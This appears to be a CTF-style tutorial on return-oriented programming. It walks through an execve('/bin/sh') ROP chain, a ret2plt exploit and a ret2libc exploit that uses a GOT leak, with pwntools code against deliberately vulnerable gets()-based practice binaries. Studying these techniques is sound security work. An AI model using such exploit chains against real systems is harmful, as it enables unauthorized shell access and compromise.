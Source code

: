 # What's ROP?
When we face the challenge of NX, we need to change our attacking way. Use gadget existing in memory to build up your shellcode again, and this is ROP! The gadget of ROP usually ends with **ret**, because ret can pop rip and help us control it!!  
Fowllowing are the condition we need to fullfill before we start ROP:  
1. Overwrite return address  
2. We can find gadgets, if PIE is open, we also should leak the address of gadgets!    
  
## How to find gadgets?
`pop rax; ret` would be better than `mov rax, <val>` because the there would no the piece of value you want in binary.  

Here comes an important concept when you try to find gadgets by hands:  
```
400732:  41 5f       pop r15
400734:  c3          ret
```
You can try to return to `400733`. CPU would parse it `5f c3` as `pop rdi; ret;` :)

## ROP (`/file/rop/`)
```c
...
int main(){

    init();

    puts( "Say hello to stack :D" );

    char buf[0x30];
    gets( buf );

    return 0;
}
```
This is a sample helping to figure out how ROP works. Check the makefile in folder, we can see that pie, canary are disabled. Also we should be able to find a lot of gadgets because it is static-linked.  
This code would open a buffer of 48 bytes to receive our input. We cannot use shellcode to launch attack because NX is enabled. How do I hijack the control flow to pop a shell?  
First step is to overwrite the return address of main function and go to gadget one:  
```
------------  <---- rsp
|          |
|          |  <-- 0x30 bytes
|          |
------------
| saved rbp|  <-- 0x8 bytes
------------
| ret addr |
------------
```
Therefore, we would use `0x38` bytes of junk data to overflow and overwrite return address then. Here, we know we can hijack the control flow. But what should our control flow be like? To pop up a shell, our ideal goal is to call `execve('/bin/sh', 0, 0)`. Take a look at [syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), `sys_execve` needs rax to be 59, rdi to be address of `/bin/sh`, then both rsi and rdx to be 0.  
To find the gadgets, here comes a popular tools: [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).  
I would not describe the whole process of finding gadgets, it costs a long time. I would directly introduce the control flow hijacked by my rop chain:  
```
-----------
pop rdi; ret;   <-- ret addr of main function (gadget 1)
-----------
    bss
-----------
pop rsi; ret;   <-- ret addr of gadget 1 (gadget 2)
-----------
 "/bin/sh\0"
-----------
mov qword ptr [rdi], rsi; ret;  <-- ret addr of gadget 2 (gadget 3)
-----------
pop rdx; pop rsi; ret;   <-- ret addr of gadget 3 (gadget 4)
-----------
     0
     0
-----------
pop rax; ret;    <-- ret addr of gadget 4 (gadget 5)
-----------
     59
-----------
  syscall     <-- ret addr of gadget 5 (gadget 6)
```
Here we use six gadgets to make the syscall of execve. Let me explain gadgets one by one.  
1. Gadget 1 is to put the address of string(`/bin/sh`) into rdi. We can find a writeable place in virtual memory (It's possible to ruin program), here I choose bss section. When `ret` is executed, stuff pointed by rsp would be poped into rip. Therefore, rip would point to gadget 1 and execute it. At the same time, rsp points to bss. When gadget 1 try to pop rdi, the bss would be put into rdi. In final step, stack would pop again with `ret` executed, so rip point to gadget 2.  
2. Gadget 2 is to put string(`/bin/sh`) into rsi because we plan to put it into the bss in further step. Same, pop rsi then string would be put into rsi. In final step, rip point to gadget 3.  
3. Gadget 3 is to put value of rsi which is `/bin/sh` into the address referred by rdi, which is bss. In final step, rip point to gadget 4.  
4. Gadget 4 is to give 0 to both rdx and rsi. In final step, rip point to gadget 5.  
5. Gadget 5 is to give 59 to rax, then rip point to gadget 6.  
6. Gadget 6, final gadget, make syscall.  

Exploit: (`/file/rop/exp.py` run with python2)

## ret2plt (`/file/ret2plt/`)
This binary has less gadgets because it uses dynamic linking. However, we won't need to build ropchain piece by piece this time. There is plt function which can do what we want to do; therefore, this time we would ret2plt. To call `system('sh')`, I would like to call `gets@plt` to input the string(`sh`), then call `system@plt`. This time, exploit is much shorter :)
```py
...
pop_rdi = 0x400733
bss = 0x6010a0
getsplt = 0x400530
systemplt = 0x400520

p = flat('a' * 0x38, pop_rdi, bss, getsplt, pop_rdi, bss, systemplt)

r.sendlineafter(':D', p)
r.interactive()
```
1. `gets()` would accept bss from rdi as its first parameter. Here, exploit would pop out a shell, then we can input our string `sh`, `gets` would help us to put the string to bss.
2. `system()` would accept bss from rdi as its first parameter. system locates to bss and find `sh` in it.

> ASLR is already opened here. But why we still can find the address of plt easily? Because ASLR won't randomize the base address of text section, the targets of ASLR are limited to stack, heap, and libc. If you want to randomize the text section, you need to open PIE.

## ret2libc(`/file/ret2libc/`)
In `ret2plt`, we have existing gadgets in elf. However, we will not always be so lucky. If we don't have existing gadgets in elf, we can try to find them in libc.  
How to solve the challenge of randomized address? In `ret2plt`, ASLR won't randomize the base address of ELF itself, so we can find the address directly by objdump. But, the base address of libc would change for each time, which means that the address of gadgets in libc will also change. Therefore, we need to leak them.
```py
r = process('./ret2libc')
elf = ELF('./ret2libc')
libc = ELF('./xxx.so')

puts_plt = elf.plt['puts']   # give us the address of puts@plt
libc_start_main_got = elf.got['__libc_start_main']    # give us the address of libc_start_main@got
main = elf.symbols['main']    # give us the address of main function

# Now, lets try to leak the runtime address of __libc_start_main
# how do we send our payload again after we leak the address: back to main again
p = flat('a'*padding, pop_rdi_ret, libc_start_main_got, puts_plt, main)
r.sendline(p)

# receive the output of address
libc_start_main_address = u64(r.recv().ljust(8, '\x00'))
libc_start_main_offset = libc.sym.__libc_start_main

# assign the base address of libc
libc.address = libc_start_main_address - libc_start_main_offset

system_address = libc.sym.system

p = flat('a'*padding, pop_rdi_ret, libc.search('/bin/sh').next(), ret, system_address)
r.sendline(p)
```
Here comes several useful tricks with pwntools. `ELF()` would load the binary and give us some information so that we don't need to search them manually. In first payload, we use `puts@plt` to help us print out the runtime address of `libc_start_main`, which was saved in the got table after begin loaded. Here comes another important concept, ASLR randomizes the base address; however, the offset between runtime address and base address is fixed.  
```
runtime address of A - offset of A = runtime base address of lib
=> runtime base address + offset of B = runtime address of B
=> runtime base address + offset of C = runtime address of C
```
To get the offset automatically, we can search the symbol by `readelf -S` directly, which can also be got with `elf.sym.xx`. Another trick is if we assign the base address to `libc.address`. Then symbol we get with `elf.sym.xx` in the future would also be the runtime address, it is convenient, isn't it? In the second payload, we just need to hijack the main function to the leaked `system()` in libc, we can also find the runtime address of `/bin/sh` with `search()` function because I have assigned the base address.  
One more important thing needed to care about is `MOVAPS` issue in `system` function. It's very annoying when your exploit seems correct with show error of `Got EOF while reading in interactive`. Generally, it is due to the reason for **stack alignment**. Specific version of glibc in linux-x86_64 would require stack to be aligned to 16 bytes, which means the address of `$rsp` should be multiple of `16` bytes. It's also easy to align the stack again, push one more `ret` gadgets or jump to the place skipping `push rbp` would work again!  

* [The MOVAPS issue](https://ropemporium.com/guide.html#Common%20pitfalls)
* [Someone write a tools to automatically extract offset based on leaked address](https://github.com/lieanu/LibcSearcher)

> When you try to use makefile to compile the example file, remember it is dynamic linking. To find the libc linked to the binary, you need to use ldd to check the path of libc and specify in your exploit!

## Practice  
Kinds of ROP | practice link  
------------ | --------------  
Would you like to try simple rop first? | [NTU 2017 ROP](https://github.com/shinmao/CTF-writeups/tree/master/NTU-CTF-2017/simple_rop)

